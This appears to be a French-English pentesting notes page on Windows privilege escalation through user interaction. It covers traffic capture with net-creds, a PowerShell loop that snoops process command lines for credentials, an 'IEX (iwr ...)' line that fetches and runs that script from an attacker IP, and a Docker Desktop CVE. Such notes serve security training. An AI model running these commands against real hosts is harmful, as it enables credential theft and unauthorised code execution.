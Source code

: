 # Interacting with Users

***

{% hint style="warning" %}
Les utilisateurs peuvent involontairement compromettre la sécurité d’une organisation, surtout lorsqu’ils sont pressés ou distraits. Les attaquants exploitent cette faiblesse pour obtenir des identifiants ou escalader leurs privilèges, notamment via des fichiers piégés sur des partages réseau ou l’interception de trafic.
{% endhint %}

***

### <mark style="color:red;">Traffic Capture</mark>

<figure><img src="../../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
The tool [net-creds](https://github.com/DanMcInerney/net-creds)&#x20;
{% endhint %}

***

### <mark style="color:red;">Process Command Lines</mark>

<mark style="color:green;">**Monitoring for Process Command Lines**</mark>

```powershell
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```

<mark style="color:green;">**Running Monitor Script on Target Host**</mark>

{% code fullWidth="true" %}
```powershell
IEX (iwr 'http://10.10.10.205/procmon.ps1') 
```
{% endcode %}

***

### <mark style="color:red;">Vulnerable Services</mark>

<mark style="color:green;">**Vulnérabilité CVE-2019-15752**</mark>

Dans Docker Desktop avant 2.1.0.1, un répertoire accessible en écriture à tous les utilisateurs permettait d’y placer un exécutable malveillant, exécuté au démarrage ou lors d’un `docker login`, pouvant mener à une élévation de privilèges.

***
